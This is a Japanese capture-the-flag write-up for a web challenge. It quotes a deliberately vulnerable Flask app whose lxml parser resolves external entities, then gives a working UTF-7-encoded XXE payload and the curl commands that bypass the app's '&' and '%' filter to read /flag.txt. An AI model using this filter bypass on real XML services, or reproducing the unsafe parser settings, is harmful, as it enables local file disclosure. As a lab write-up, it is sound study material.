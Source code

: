 # card:Web:258pts
誕生日カードを送り合えるWebアプリができました！ [http://20.2.65.248:60001/](http://20.2.65.248:60001/)  
[card.zip](card.zip)  

# Solution
URLとソースが渡される。  
アクセスすると誕生日カードを送り合えるサービスらしい。  
![site.png](site/site.png)  
配布ファイルを確認すると、/flag.txtにフラグがあることがわかる。  
app.pyを見ると以下のようであった。  
```python
from flask import Flask, request, make_response, render_template, redirect, url_for
from lxml import etree
import os
import secrets
import uuid

app = Flask(__name__)

cards_directory = "cards"
os.makedirs(cards_directory, exist_ok=True)

@app.route('/')
def index():
    user_id = request.cookies.get('user_id')
    if not user_id:
        response = make_response(render_template('home.html'))
        user_id = secrets.token_hex(16)
        response.set_cookie('user_id', user_id)
        return response
    else:
        return render_template('home.html')

@app.route('/send', methods=['GET', 'POST'])
def send():
    if request.method == 'POST':
        recipient_id = request.form['recipient_id']
        card_data = request.form['card_data']

        card_data = card_data.replace('&','')
        card_data = card_data.replace('%','')

        file_name = f"{recipient_id}_{uuid.uuid4()}.xml"
        file_path = os.path.join(cards_directory, file_name)

        with open(file_path, 'w') as file:
            file.write(card_data)
        
        return redirect(url_for('index'))
    else:
        return render_template('send.html')

@app.route('/view')
def view():
    user_id = request.cookies.get('user_id')
    card_files = [f for f in os.listdir(cards_directory) if f.startswith(user_id)]
    cards = []

    parser = etree.XMLParser(load_dtd=True, no_network=False, resolve_entities=True)

    for card_file in card_files:
        file_path = os.path.join(cards_directory, card_file)
        try:
            with open(file_path, 'rb') as file:
                xml_data = etree.parse(file, parser)
                message = xml_data.xpath('/card/message/text()')
                if message:
                    cards.append(message[0])
                else:
                    cards.append("Invalid card format.")
        except etree.XMLSyntaxError as e:
            cards.append(f"Error parsing XML: {e}")
    
    return render_template('view.html', cards=cards)

if __name__ == '__main__':
    app.run(debug=True, host='0.0.0.0', port=60001)
```
ランダムな`user_id`を🍪へ入れ、それをもとにファイルでカードデータの管理をしている。  
ファイル名の一部は自由に書き換えられるが、uuidがついているのでトラバーサルなどはできない。  
管理はxmlで行われており、謎で怪しい。  
おそらくXXEだろうと考えるが、`&`や`%`が保存段階で取り除かれる。  
ここで該当する文字を使わないXXE手法を考えると、エンコーディングをUTF-7などにしてやるテクニックを思い出す。  
以下のようなXMLでXXEができる(エンコードは[ここ](http://tools.nash-dev.com/))。  
```xml
<?xml version="1.0" encoding="UTF-7"?>
+ADwAIQ-DOCTYPE foo+AFs +ADwAIQ-ELEMENT foo ANY +AD4
+ADwAIQ-ENTITY xxe SYSTEM +ACI-file:///flag.txt+ACI +AD4AXQA+
+ADw-card+AD4APA-message+AD4AJg-xxe+ADsAPA-/message+AD4APA-/card+AD4-
```
フォームデータとして送信してやる。  
```bash
$ curl -X POST http://20.2.65.248:60001/send -F 'recipient_id=satoki' -F 'card_data= <?xml version="1.0" encoding="UTF-7"?>
+ADwAIQ-DOCTYPE foo+AFs +ADwAIQ-ELEMENT foo ANY +AD4
+ADwAIQ-ENTITY xxe SYSTEM +ACI-file:///flag.txt+ACI +AD4AXQA+
+ADw-card+AD4APA-message+AD4AJg-xxe+ADsAPA-/message+AD4APA-/card+AD4-'
<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/">/</a>. If not, click the link.
$ curl -s http://20.2.65.248:60001/view -H 'Cookie: user_id=satoki' | grep -o 'shioCTF{.*}'
shioCTF{UTF7_1s_u5efu1_enc0d1ng}
```
ファイルを読み取るとflagが得られた。  

## shioCTF{UTF7_1s_u5efu1_enc0d1ng}